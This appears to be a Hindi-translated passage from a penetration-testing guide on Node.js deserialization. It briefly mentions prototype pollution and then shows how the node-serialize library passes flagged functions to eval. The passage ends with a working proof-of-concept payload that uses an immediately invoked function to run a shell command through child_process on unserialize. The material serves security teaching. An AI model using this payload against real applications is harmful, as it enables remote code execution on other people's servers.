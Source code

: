 ```javascript
console.log('hello')
return 1
})
return p
}

test_ressolve()
test_then()
//For more info: https://blog.huli.tw/2022/07/11/en/googlectf-2022-horkos-writeup/
```
### `__proto__` और `prototype` प्रदूषण

यदि आप इस तकनीक के बारे में जानना चाहते हैं **तो निम्नलिखित ट्यूटोरियल पर एक नज़र डालें**:

{% content-ref url="nodejs-proto-prototype-pollution/" %}
[nodejs-proto-prototype-pollution](nodejs-proto-prototype-pollution/)
{% endcontent-ref %}

### [node-serialize](https://www.npmjs.com/package/node-serialize)

यह पुस्तकालय कार्यों को अनुक्रमित करने की अनुमति देता है। उदाहरण:
```javascript
var y = {
"rce": function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })},
}
var serialize = require('node-serialize');
var payload_serialized = serialize.serialize(y);
console.log("Serialized: \n" + payload_serialized);
```
The **serialised object** will looks like:  
**सिरियलाइज्ड ऑब्जेक्ट** इस तरह दिखेगा:
```bash
{"rce":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}"}
```
आप उदाहरण में देख सकते हैं कि जब एक फ़ंक्शन को सीरियलाइज़ किया जाता है, तो `_$$ND_FUNC$$_` फ़्लैग सीरियलाइज़ किए गए ऑब्जेक्ट में जोड़ा जाता है।

फाइल `node-serialize/lib/serialize.js` के अंदर आप वही फ़्लैग और कोड का उपयोग कैसे किया जा रहा है, पा सकते हैं।

![](<../../.gitbook/assets/image (351).png>)

![](<../../.gitbook/assets/image (446).png>)

जैसा कि आप अंतिम कोड के टुकड़े में देख सकते हैं, **यदि फ़्लैग पाया जाता है** तो `eval` का उपयोग फ़ंक्शन को डीसिरियलाइज़ करने के लिए किया जाता है, इसलिए मूल रूप से **उपयोगकर्ता इनपुट `eval` फ़ंक्शन के अंदर उपयोग किया जा रहा है**।

हालांकि, **सिर्फ फ़ंक्शन को सीरियलाइज़ करना** **इसे निष्पादित नहीं करेगा** क्योंकि आवश्यक होगा कि कोड का कुछ भाग **`y.rce` को कॉल कर रहा हो** हमारे उदाहरण में और यह अत्यधिक **असंभव** है।\
खैर, आप बस **सीरियलाइज़ किए गए ऑब्जेक्ट को संशोधित कर सकते हैं** **कुछ कोष्ठकों को जोड़कर** ताकि जब ऑब्जेक्ट को डीसिरियलाइज़ किया जाए तो सीरियलाइज़ किया गया फ़ंक्शन स्वचालित रूप से निष्पादित हो जाए।\
अगले कोड के टुकड़े में **अंतिम कोष्ठक पर ध्यान दें** और कैसे `unserialize` फ़ंक्शन स्वचालित रूप से कोड को निष्पादित करेगा:
```javascript
var serialize = require('node-serialize');
var test = {"rce":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) }); }()"};
serialize.unserialize(test);
```